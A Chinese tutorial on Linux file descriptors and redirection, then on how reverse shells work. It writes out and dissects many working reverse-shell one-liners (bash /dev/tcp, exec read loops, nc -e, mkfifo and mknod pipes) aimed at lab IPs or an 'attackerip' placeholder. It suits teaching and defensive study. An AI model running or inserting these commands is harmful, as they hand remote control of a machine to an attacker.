# 一、文件描述符与重定向

## **0X00 前言**

由于在反弹shell的过程中有一些非常精简的语句，这里面最难的也就是文件描述符和重定向的部分，因此我特地写一篇文章单独解释这个问题。

## **0X01 文件描述符**

**linux文件描述符**：可以理解为linux跟踪打开文件，而分配的一个数字，这个数字有点类似c语言操作文件时候的句柄，通过句柄就可以实现文件的读写操作。

当Linux启动的时候会默认打开三个文件描述符，分别是：

标准输入standard input 0 （默认设备键盘）
标准输出standard output 1（默认设备显示器）
错误输出：error output 2（默认设备显示器）



### **注意：**

（1）以后再打开文件，描述符可以依次增加
（2）一条shell命令，都会继承其父进程的文件描述符，因此所有的shell命令，都会默认有三个文件描述符。

**文件所有输入输出都是由该进程所有打开的文件描述符控制的。（Linux一切皆文件，就连键盘显示器设备都是文件，因此他们的输入输出也是由文件描述符控制）**

一条命令执行以前先会按照默认的情况进行绑定（也就是上面所说的 0,1,2），如果我们有时候需要让输出不显示在显示器上，而是输出到文件或者其他设备，那我们就需要重定向。

## **0X02 重定向**

重定向主要分为两种(其他复杂的都是从这两种衍生而来的)：

（1）输入重定向 **<** <<
（2）输出重定向 **>** >>

### **重点：**

1.bash 在执行一条指令的时候，首先会检查命令中存不存在重定向的符号，如果存在那么首先将文件描述符重定向（之前说过了，输入输出操作都是依赖文件描述符实现的，重定向输入输出本质上就是重定向文件描述符），然后在把重定向去掉，执行指令

2.如果指令中存在多个重定向，那么不要随便改变顺序，因为**重定向是从左向右解析**的，改变顺序可能会带来完全不同的结果（这一点我们后面会展示）

3.**< 是对标准输入 0 重定向 ，> 是对标准输出 1 重定向**

**4.再强调一下，重定向就是针对文件描述符的操作**

### **1.输入重定向"<"**

格式： 0< word **（注意[n]与<之间没有空格）**

说明：将文件描述符 0 重定向到 word 指代的文件（**以只读方式打开**）,**如果省略,默认就是0（标准输入）**





解释: 解析器解析到 "<" 以后会先处理重定向，将标准输入重定向到a.txt，之后cat再从标准输入读取指令的时候，由于标准输入已经重定向到了a.txt ，于是cat就从a.txt中读取指令了。(**有没有觉得这个其实就是C语言中的指针或者文件句柄，就是将0这个指针指向了不同的地址，自然有不同的输入**)

图示:



### **2.输出重定向">（覆盖）"">>(追加)"**

格式： 1> word   1>>word

说明： 将文件描述符 **1** 重定向到**word 指代的文件**（**以写的方式打开**），**如果n 省略则默认就是 1（标准输出）**



图示：



### **3.标准输出与标准错误输出重定向**

格式： &> word      >& word     =    > word 2>&1 

说明: 将标准输出与标准错误输出都定向到word代表的文件（以写的方式打开）

两种格式意义完全相同，这种格式完全等价于 > word 2>&1 ( 从左到右看，> word 是将标准输出重定向到word文件，之后的 2>&1 是将标准错误输出复制到标准输出，**&是为了区分文件1和文件描述符1的**，详细的介绍后面会有)



解释：我们首先执行了一个错误的命令，可以看到错误提示被写入文件（正常情况下是会直接输出的），我们又执行了一条正确的指令，发现结果也输入到了文件，说明正确错误消息都能输出到文件。最后执行了等价的命令：

**ls >>a.txt  2>&1** 

同样将消息输出到该文件中。

图示：



### **4.文件描述符的复制**

格式： [n]<&[m] / [n]>&[m] **(这里所有字符之间不要有空格)**

说明：

1）这里两个**都是将文件描述符 n 复制到 m** ，两者的区别是，前者是以只读的形式打开，后者是以写的形式打开

**因此 0<&1 和 0>&1 是完全等价的（读/写方式打开对其没有任何影响）**

2）这里的& 目的是为了区分数字名字的文件和文件描述符，如果没有& 系统会认为是将文件描述符重定向到了一个数字作为文件名的文件，而不是一个文件描述符

这里就可以用上面的例子作为演示，将错误和正确的输出都输入到文件中

### **重点：**

之前我们说过，重定向符号的顺序不能随便换，因为系统是从左到右执行的，我们下面就举一个例子

(1)cmd > file 2>&1
(2)cmd 2>&1 >file

与第一条指令类似的指令在上面我已经介绍过了，我们现在就来看看第二条指令的执行过程

**1.首先解析器解析到 2>&1**



**2.解析器再向后解析到 “>”**



与上一个例子对比，就可以看出区别：**上一个例子标准错误输出跟着转到了file,而这里却不会。**


### **5.exec 绑定重定向**

格式：exec [n] <> file[n]

上面的输入输出重定向将输入和输出绑定文件或者设备以后只对当前的那条指令有效，如果需要接下来的指令都支持的话就需要使用 exec 指令

### **重点：**

格式： [n]<>word

说明：以读写方式打开word指代的文件，并将n重定向到该文件。如果n不指定的话，默认为标准输入。





## **0X03 总结**

文件描述符和重定向的作用巨大，很好的体现出了Linux中一切皆文件的特性，在反弹shell建立交互通道的过程中也起到了至关重要的作用。

# 二、反弹shell的本质

## **0X00 前言**

在上面，我们已经讨论过了反弹shell中最核心也是相对较难理解的部分，那么接下来我们就可以正式借反弹shell的实例分析回顾前一篇文章讲的知识，并且也加深对反弹shell的理解吧。

## **0X01 什么是反弹shell**

reverse shell，就是控制端监听在某TCP/UDP端口，被控端发起请求到该端口，并将其命令行的输入输出转到控制端。reverse shell与telnet，ssh等标准shell对应，本质上是网络概念的客户端与服务端的角色反转。

## **0X02 为什么要反弹shell**

通常用于被控端因防火墙受限、权限不足、端口被占用等情形

假设我们攻击了一台机器，打开了该机器的一个端口，攻击者在自己的机器去连接目标机器（目标ip：目标机器端口），这是比较常规的形式，我们叫做正向连接。远程桌面，web服务，ssh，telnet等等，都是正向连接。那么什么情况下正向连接不太好用了呢？

1.某客户机中了你的网马，但是它在局域网内，你直接连接不了。

2.它的ip会动态改变，你不能持续控制。

3.由于防火墙等限制，对方机器只能发送请求，不能接收请求。

4.对于病毒，木马，受害者什么时候能中招，对方的网络环境是什么样的，什么时候开关机，都是未知，所以建立一个服务端，让恶意程序主动连接，才是上策。

那么反弹就很好理解了， 攻击者指定服务端，受害者主机主动连接攻击者的服务端程序，就叫反弹连接。

## **0X03 反弹shell的本质是什么**

我们可以先以一个linux 下的反弹shell 的命令为例来看一下反弹shell 的命令都做了些什么，掌握了反弹的本质，再多的方法其实只是换了包装而已。

### **实验环境：**

**受害者：**

```php
Ubuntu Linux ------> 192.168.1.129
```

**攻击者：**

```php
Kali Linux ------> 192.168.1.130
```

我们就以最常见的bash为例：
攻击机器上执行：

```php
nc -lvp 2333
```

受害机器上执行：

```shell
bash -i >& /dev/tcp/192.168.1.130/2333 0>&1
```

你就会看到下图：



可以看到在攻击机上出现了受害者机器的shell

解释一下这条命令具体的含义：

**1.bash -i**

```shell
1）bash 是linux 的一个比较常见的shell,其实linux的shell还有很多，比如 sh、zsh、等，他们之间有着细小差别
2）-i 这个参数表示的是产生交互式的shell
```

**2./dev/tcp/ip/port**

```shell
/dev/tcp|udp/ip/port 这个文件是特别特殊的，实际上可以将其看成一个设备（Linux下一切皆文件），
其实如果你访问这个文件的位置他是不存在的，如下图：
```



但是如果你在一方监听端口的情况下对这个文件进行读写，就能实现与监听端口的服务器的socket通信

### **实例1：**

我们输出字符串到这个文件里（当然，文件名中ip的机器要开启监听 nc -lvp 2333）



攻击机上的输出



### **实例2：**

攻击机上的输入



受害者机器上的输出



### **3.交互重定向**

为了实现交互，我们需要把受害者交互式shell的输出重定向到攻击机上
在受害者机器上输入

```shell
bash -i > /dev/tcp/192.168.146.129/2333
```

示意图：



如下图所示，任何在受害者机器上执行的指令都不会直接回显了，而是在攻击者机器上回显。




但是这里有一个问题，攻击者没有能够实现对受害者的控制，攻击者执行的命令没法在受害者电脑上执行。

于是我们似乎还需要一条这样的指令

```shell
bash -i < /dev/tcp/192.168.146.129/2333
```

示意图：



这条指令的意思是将攻击者输入的命令输入给受害者的bash，自然就能执行了

现在我们需要将两条指令结合起来（如果这条指令看不懂可以去看一下我上面提供的文章的链接再回来看这条指令）：

```shell
bash -i > /dev/tcp/192.168.146.129/2333 0>&1
建立交互式shell，将受害机标准输出重定向到攻击机，最后再将标准输入重定向复制到标准输出点，形成回环。
```

示意图：



**由这张示意图可以很清楚地看到，输入0是由/dev/tcp/192.168.1.130/2333 输入的，也就是攻击机的输入，命令执行的结果1，会输出到/dev/tcp/192.168.1.130/2333上，这就形成了一个回路，实现了我 们远程交互式shell 的功能**

如下图所示，我在攻击机上输入 ifconfig，查看到的是受害者的ip ，也就是说我们目前已经基本完成了一个反弹shell 的功能。



**注意：**
但是这里有一个问题，就是我们在受害者机器上依然能看到我们在攻击者机器中执行的指令 ，如下图所示，我们马上解决


**4. >&、&>**

这个符号前面也提到了，作用就是混合输出（错误、正确输出都输出到一个地方）

现在我们解决一下前面的问题：（在前面的命令基础上，将标准错误输出也重定向到攻击机上 ）

```shell
bash -i > /dev/tcp/192.168.1.130/2333 0>&1 2>&1
bash -i >& /dev/tcp/192.168.1.130/2333 0>&1
bash -i &> /dev/tcp/192.168.1.130/2333 0>&1
bash -i &> /dev/tcp/192.168.1.130/2333 0&>1
```

可以看到命令并没有回显在受害者机器上，我们的目的达成了

**至此，我们的反弹shell的经典语句就分析完了，通过这条语句的分析我们能大致的了解反弹shell的本质，以后碰到其他的反弹shell 的语句也能用类似的分析方法区分析，甚至我们也可以自己举一反三创造更加绝妙的反弹shell 的语句**

## **0X04 常见的反弹shell 的语句怎么理解**

### **1.方法一**

```shell
bash -i >& /dev/tcp/192.168.1.130/2333 0>&1
和
bash -i >& /dev/tcp/192.168.1.130/2333 0<&1
```

这里的唯一区别就是 0>&1 和 0<&1 ，其实就是打开方式的不同，而对于这个文件描述符来讲并没有什么区别

### **2.方法二**

```shell
bash -i >& /dev/tcp/192.168.146.129/2333 <&2
等价于
bash -i >& /dev/tcp/192.168.146.129/2333 0<&2
```

### **3.方法三**

```shell
exec 5<>/dev/tcp/192.168.1.130/2333;cat <&5|while read line;do $line >&5 2>&1;done
```

**简单的解释一下：**

```shell
exec 5<>/dev/tcp/192.168.1.130/2333
```

这一句将文件描述符5重定向到了 /dev/tcp/192.168.146.129/2333 并且方式是**读写方式**（这种方法在也讲到过），于是我们就能通过文件描述符对这个socket连接进行操作了

```shell
command|while read line do .....done
```

这个是一个非常经典的句子，它的原句是这样的

```shell
while read line do        … done < file
```

从文件中依次读取每一行，将其赋值给 line 变量（当然这里变量可以很多，以空格分隔，这里我就举一个变量的例子，如果是一个变量的话，那么一整行都是它的了），之后再在循环中对line进行操作。

而现在我们不是从file 文件中输入了，我们使用管道符对攻击者机器上输入的命令依次执行，并将标准输出和标准错误输出都重定向到了文件描述符5，也就是攻击机上，实现交互式shell的功能。

与之完全类似的还有下面这条指令，读者有兴趣可以自己分析一下：

```shell
0<&196;exec 196<>/dev/tcp/attackerip/4444; sh <&196 >&196 2>&196
```

### **4.方法四**

nc 如果安装了正确的版本（存在-e 选项就能直接反弹shell）

```shell
nc -e /bin/sh 192.168.1.130 2333
```

但是如果是没有-e 选项是不是就不能实现了呢？当然不是，我们可以向下面这样

```shell
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.146.129 2333 >/tmp/f
```

**简单的解释：**

mkfifo 命令首先创建了一个管道，cat 将管道里面的内容输出传递给/bin/sh，sh会执行管道里的命令并将标准输出和标准错误输出结果通过nc 传到该管道，由此形成了一个回路

类似的命令：

```shell
mknod backpipe p; nc 192.168.1.130 2333 0<backpipe | /bin/bash 1>backpipe 2>backpipe
```

## **0X05 总结**

反弹shell方法虽然常见，方法网上一搜就是一大把的代码，但是很少有人会去仔细斟酌反弹shell的原理，我也看到有类似的文章，但是可能是由 于篇幅原因并没有对文件描述符和重定向的部分做深入的讨论，导致解释语句的时候依然让人不好理解，于是这次我分成了两篇有所关联的文章彻底的剖析了一下， 个人认为这个原理是非常值得大家思考的。